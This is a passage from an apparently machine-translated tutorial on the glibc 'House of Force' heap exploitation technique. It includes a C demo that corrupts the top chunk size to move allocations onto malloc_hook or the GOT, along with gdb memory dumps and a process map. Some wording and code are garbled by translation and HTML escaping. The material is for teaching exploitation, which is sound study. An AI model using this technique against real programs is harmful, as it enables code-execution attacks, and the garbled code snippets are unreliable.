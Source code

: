 ```
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78

```

After that, our assigned block will appear at 0x601010+0x10, that is, 0x601020 can change the contents of the got table.


However, it should be noted that while being elevated, the content near malloc@got will also be modified.


```c

    set_head(victim, nb | PREV_INUSE |

(av! = &amp; main_arena? NON_MAIN_ARENA: 0));
```



## Simple example 2
In the previous example, we demonstrated modifying the contents of the got table above it (lower address) by reducing the pointer of the top chunk by HOF.
But HOF can actually make the top chunk pointer increase to modify the content in the high address space. We demonstrate this by using this example.


```

int main()

{

long * ptr, * ptr2;
ptr = malloc (0x10);
ptr = (long *) (((long) ptr) +24);
*ptr=-1; &lt;=== Modify top chunk size
Malloc(140737345551056); &lt;=== Increase the top chunk pointer
    malloc(0x10);

}

```

We can see that the program code is basically the same as the simple example 1, except that the size of the second malloc is different.
This time our goal is malloc_hook, we know that malloc_hook is the value of the global variable in libc.so, first look at the memory layout


```

Start              End                Offset             Perm Path

0x0000000000400000 0x0000000000401000 0x0000000000000000 rx /home/vb/desktop/tst/t1
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/desktop/tst/t1
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/desktop/tst/t1
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so

0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so

0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so

0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so

0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
```